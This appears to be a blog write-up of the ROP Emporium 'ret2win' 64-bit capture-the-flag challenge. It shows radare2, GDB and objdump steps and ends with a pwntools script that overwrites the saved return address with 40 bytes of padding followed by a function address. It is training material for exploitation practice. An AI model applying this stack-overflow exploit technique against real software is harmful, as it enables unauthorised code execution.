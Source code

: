 ```yaml
---
layout: post
title: ROP Emporium Challenge 0 - ret2win (64 bits)
excerpt_separator: <!--more-->
---
```


Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*
<!--more-->

# ret2win

Link: https://ropemporium.com/challenge/ret2win.html

--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_4.jpg)



## 2. Calculating RIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_5.jpg)


With 41 we overwrite only 1 byte, so the offset is 40:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 64 bits binaries of Rop Emporium.




## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_7.jpg)

Note: Also using gdb (*info functions*).




## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='amd64', os='linux')
p = process('./ret2win')

junk =    "A"*40
ret2win = 0x0000000000400811
rop = junk + p64(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

------------------------

References:

- https://medium.com/@jacob16682/reverse-engineering-using-radare2-588775ea38d5
